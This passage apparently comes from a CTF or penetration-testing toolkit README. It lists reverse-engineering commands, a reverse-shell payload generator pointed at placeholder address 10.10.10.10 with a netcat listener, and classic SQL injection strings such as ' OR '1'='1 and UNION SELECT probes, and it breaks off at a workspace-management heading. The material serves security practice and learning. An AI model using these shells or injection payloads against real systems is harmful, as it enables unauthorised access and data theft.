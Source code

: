 ### Reverse Engineering
```bash
# Disassembly with Radare2
r2 -A binary_file

# Debugging with GDB
gdb ./binary_file

# Ghidra (GUI)
ghidra
```

## 🐚 Reverse Shells & Listeners

### Generate Reverse Shell Payloads
```bash
# Get various reverse shell payloads
revshell 10.10.10.10 4444
```

### Set Up Listeners
```bash
# Quick netcat listener
listen 4444

# Advanced listeners with logging
nc -nlvp 4444 | tee session.log
```

## 💉 SQL Injection

### Common Payloads
```bash
# Display SQL injection payloads
sqli
```

### Manual Testing
```bash
# Basic SQLi tests
' OR '1'='1
' OR 1=1--
admin'--

# Union-based
' UNION SELECT null,null,null--
' UNION SELECT 1,user(),database()--
```

## 🏗️ CTF Workspace Management
